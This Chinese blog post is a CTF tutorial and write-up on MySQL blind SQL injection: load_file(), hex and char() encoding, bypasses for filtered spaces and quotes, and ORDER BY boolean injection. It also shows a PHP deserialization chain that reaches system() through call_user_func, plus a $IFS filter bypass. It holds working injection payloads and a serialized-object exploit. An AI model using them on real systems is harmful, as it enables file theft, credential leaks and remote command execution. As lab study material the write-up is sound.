







<!--yml
category: 未分类
date: 2022-04-26 14:42:33
-->

# 【CTF】关于SQL盲注的细节_publicStr的博客-CSDN博客

> 来源：[https://blog.csdn.net/publicStr/article/details/84635868](https://blog.csdn.net/publicStr/article/details/84635868)

## 目录：

### 0x01 CTF题目中关于load_file()、char()、hex()、unhex()、like、过滤空格、过滤引号及相关问题

### 0x02 某简单题目中关于order by利用排序布尔盲注题目及源码

### 0x03 某CTF题解，盲注+泄露+反序列化

## 0x01 CTF题目中关于load_file()、char()、hex()、unhex()、like、过滤空格、过滤引号及相关问题

### 1、load_file()函数

它用来读取文件内容。

select load_file('c:/clog.txt');

盲注时，可以配合ascii(substr(select load_file('c:/clog.txt'))) > 97 使用，泄露出文件内容。

**load_file重点好处在于，当过滤引号后，into outfile 'xxxx'  就不能用了，但load_file参数支持0x、char()转换结果、引号、select子句结果。**

它确实太好了所以再强调一下hhhh

**参数可以用4种：**

**loadfile(0x616161);**

**loadfile( char(97,97,97) );**

**loadfile('c:/clog.txt');**

**loadfile( (select path form table where id=1) );**

着实有些强大，给SQL注入泄露文件内容提供了方便

可以泄露出config.php看看数据库连接密码。

**另外强大之处在于位置灵活，load_file()在union中、在where中都可以**

**在union中：**



union后的红色部分，成功读到了c:/clog.txt的内容，在回显第三行

前两行是第一个select的。

**绿色是记得union时，切记保持字段数和第一个select一致！2个字段，易错。**

**在where中：**



select * from goods where id=1 and substr( load_file('c:/clog.txt'),1,1 )='a';

select * from goods where id=1 and substr( load_file('c:/clog.txt'),1,1 )='f';

load_file获得的内容是flag 猜第一个字符是a无返回，猜是f正常满足where id=1 and true

（题外话：直接在MYSQL中可以select附加insert语句，但PHP函数mysql_query不能执行）

### 2、char()函数

用来ascii码转字符串。

它可以配合load_file函数，作为其参数过防火墙。

select char(97,98,99);

可以得到abc

配合用法：



char(99,58,47,99,108,111,103,46,116,120,116)

就相当于 c:/clog.txt

注意在phpmyadmin图形化界面执行SQL语句时，可能会出现结果以16进制显示，并非想要的c:/clog.txt，最好在MySQL命令行里

### 3、hex()函数

用来把字符或字符串转为16进制值

转换后，可以用二分法盲注。

例子如下图：



hex('ab')转换后是6162

用if语句，如果满足条件，则if值1，不满足if值为2

hex的结果可以作为数字，用逻辑运算符比较大小。后三行探究了加引号也被识别为数字去比较。

### 4、unhex()函数

把16进制转换成字符串。

select unhex(616263)；结果是abc

**注意phpmyadmin中，unhex的转换结果有问题，不是字符，在MySQL命令行中正常。**

如下图，结果不一致：



### 5、like通配

可以用来辅助判断是否加载成功了

select if((load_file('c:/clog.txt') like '%'),1,2);

如果load_file成功读到字符flag

会成为判断是否 flag like '%'

%是通配符，可以匹配任意字符，所以只要load_file有结果必然成功，返回1

如：flag可以匹配%ag成功。%flag{%可以寻找是否有flag{出现。

### 6、过滤空格

（1）可以用括号代替，例如

if(hex(database())like(0x256c25),1,2)

like前后都有括号，不出现空格，匹配内容是%f% 即内容中出现f即可返回1，否则返回2

（2）用+代替空格

select+if('flag{hhh}'like+0x256c25,1,2);

（3）用/**/代替空格

select/**/if('flag{hhh}'like/**/0x256c25,1,2);

（4）尽量用if语句，if的条件部分支持16进制编码。

select/**/if((select/**/'ab')=unhex(6162),1,2);

### 7、过滤引号

如果过滤引号，into outfile就可以说完蛋了，绝对路径必须有引号。

只能考虑load_file读，或者支持0x参数的函数

例如： select substr(0x616263,2,1); 能返回字母b，即0x62

## 0x02 order by盲注

题目是安恒月赛，猜测代码，做了手工复现，呈现一个表格，可改参数是order_by

改变123发现是根据123列排序，4时无内容，说明只有3列。

如图：



发现可以布尔盲注，通过影响货品的顺序。

已知根据第1列排序和根据第2列排序的顺序刚好相反。

那么利用if语句，if(条件, id, name) 当条件满足时，根据id列排序，不满足根据name列排序，达到盲注目的。

**?order_by=if(substr((select flag from flag),1,1)=0x66,id,name)**

此时从flag表查到flag字段；

用substr取到第一个字符；

判断这个字符是否为0x66即 字符f ，在无过滤时也可以写作='f' ；

如果确实为f 则根据id列排序，否则根据name列排序。

**这里必须写清楚列名，在if(条件，列名1，列名2)中，列名1比如要写id，列名2写name，不能写数字，if后返回的数字结果无法order by 1  只能order by name 原因不明。**

所以，通过二分法猜，每个字符是否大于0x61.........满足则按id排列，不满足按name排列

写脚本的时候，就需要检测页面结果，看哪个产品在第一行，就知道是否猜正确。



**题目源码地址：**[https://github.com/staticStr/ForCTF/raw/master/blind_sql_order_by.zip](https://github.com/staticStr/ForCTF/raw/master/blind_sql_order_by.zip)

## 0x03 某CTF题目用到的以上知识，以及顺便浅析反序列化

### 1、SQL注入

只有注册、登录、个人信息页，对个人信息页测试

user.php?id=1

测试语句可以用?id=if(1,2,1)  因为if可以用在where中生效。

if( 条件，满足则取此值，不满足则取此值)

这个测试语句if的条件是1，恒真，所以id=2

页面上**显示了id是2号用户的信息**，而非1号。

为了**测试是否过滤了引号**，可以尝试

if(length('a')=1,1,2)

若引号生效，应当是长度为1，满足条件返回1

**测试是否能执行函数，且执行后是否有返回字符串**的几种方式，如测试version()是否执行：

（1）可以用长度判断：

if((length( version() ) > 0 ),1,2) 返回1就有执行，2无

（2）还可以用like通配%

if( (version() like '%'),1,2) 返回1说明有执行，2无

（3）还可以取第一个字符的ascii码是否大于0

if(ascii(substr(version(),1,1))>0,1,2)

总之测出来有执行，**但发现被过滤了引号和空格**

绕过的方法在前文已经讲了，引号不能用了，into outfile也就不能用了，空格可以用/**/替代，也可以不用空格

**来一个即不需要空格，也不需要引号的注入payload，并用load_file函数读取文件：**

if(substr((load_file(0x696e6465782e706870)),1,1)=0x62,1,2);

其中load_file的参数是index.php的十六进制，表示读取index.php的第一个字符，判断是否为0x62

可以用二分法，这样**逐字泄露出整个文件**。。

判断第一个字符是否大于等于a

select if(substr((load_file(0x696e6465782e706870)),1,1)>=0x61,1,2);

判断第二个字符是否大于等于a

select if(substr((load_file(0x696e6465782e706870)),2,1)>=0x61,1,2);

**整个文件被泄露后，关键源码如下：**

```
<?php
require_once('config/sys_config.php');
require_once('header.php');
if (isset($_COOKIE['CONFIG'])) {
    $config = $_COOKIE['CONFIG'];
    require_once('config/config.php');
}
?>
```

```
<?php
$config = unserialize(base64_decode($config));
if (isset($_GET['p'])) {
    $p = $_GET['p'];
    $config->$p;
}

class Config
{
    private $config;
    private $path;
    public $filter;
    public function __construct($config = "")
    {
        $this->config = $config;
    }
    public function getConfig()
    {
        if ($this->config == "") {
            $config = isset($_POST['config']) ? $_POST['config'] : "";
        }
    }
    public function SetFilter($value)
    {
        $value = waf_exec($value);
        var_dump($value);
        if ($this->filter) {
            foreach ($this->filter as $filter) {
                $array = is_array($value) ? array_map($filter, $value) : call_user_func($filter, $value);
            }
            $this->filter = array();
        } else {
            return false;
        }
        return true;
    }
    public function __get($key)
    {
        $this->SetFilter($key);
        die("");
    }
}
```

传入的$config由Cookie传入，在cookie中设config=xxx可以操纵反序列化的值。

通过反序列化生成Config类的对象。

**思路：看到可操纵反序列化，想达到命令执行，直接找array_map、call_user_func这样的函数，都可以执行自己的指令。**

**1、如何执行到array_map、call_user_func函数处？**

发现可执行函数属于SetFilter函数，而SetFilter函数唯一被执行点是__get函数中

**2、类的magic函数 __get 的触发**

一个类创建对象时，会自动触发__construct函数的内容。

当被调取类中私有变量时：


也就是假如GET方式传入$p变量的内容是"ls"字符串，$config对象会调取"ls"变量，虽然它不存在。

但也会触发__get方法，并且__get的参数是ls字符串。

public function __get($key) 

函数触发后，$key就是要调取的"ls"指令,执行了

$this->SetFilter($key);

触发了目标函数SetFilter

**3、SetFilter函数中执行命令**

is_array($value)判断传入的value "ls"是否是数组，不是执行问号冒号不等式的第二项

第二项是call_user_func($filter, $value); 将被执行

call_user_func用来执行$filter变量内容的函数，value作参数

可以在反序列化前，设filter为"system"去执行系统命令

所以最终执行了system("ls")

**4、序列化语句的生成**

传入cookie中的参数是要进行反序列化的字符串，需要我们构造一个序列化的字符串传入。

用PHP编写即可，输出base64编码，注意把Conifg类的定义也放同一个文件里。

```
$sky = new Config();
$sky->filter = array('system');
echo base64_encode(serialize($sky));
```

**5、最后的过滤**

由于$value = waf_exec($value);

有个不明的过滤函数，过滤了ls指令里的空格和/

**这里用$IFS替代空格**

**$IFS是系统级变量，默认相当于0x20空格，也可以修改。**

IFS的默认值定义IFS=$' \t\n'

IFS的值如果是普通字符，那么加不加$都没有关系，但默认表示空格需要加$才生效

（关于IFS参考[https://blog.csdn.net/reliveit/article/details/45271415](https://blog.csdn.net/reliveit/article/details/45271415)）

ls$IFS*即可列出所有二级目录下的文件

看到了flag.php，但因没有/无法cat出来

**用grep搜索文件内容的命令**

grep -ri . flag

-i表示不区分大小写

点表示搜索单个字符 找flag相关

最终gerp$IFS-ri$IFS.$IFSflag